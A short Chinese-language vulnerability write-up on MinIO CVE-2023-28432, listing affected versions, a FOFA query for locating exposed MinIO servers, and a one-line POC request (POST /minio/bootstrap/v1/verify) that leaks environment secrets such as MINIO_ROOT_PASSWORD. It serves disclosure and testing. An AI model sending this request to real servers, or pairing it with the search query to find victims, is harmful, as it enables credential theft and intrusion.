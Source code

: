 # MinIO verify 敏感信息泄漏漏洞 CVE-2023-28432

## 漏洞描述

Minio 是一个多云对象存储框架。在从RELEASE.2019-12-17T23-16-33Z开始到RELEASE.2023-03-20T20-16-18Z之前的集群部署中，MinIO存在漏洞发送请求后返回所有环境变量，包括MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD，导致信息泄露。分布式部署的所有用户都会受到影响

## 漏洞影响

```
MinIO <= RELEASE.2023-03-20T20-16-18Z
```

## FOFA

```
app="minio"
```

## 漏洞复现

登陆页面

![image-20230417093052971](images/image-20230417093052971.png)

验证POC (默认端口:9000)

```
POST /minio/bootstrap/v1/verify
```

![image-20230417093122553](images/image-20230417093122553.png)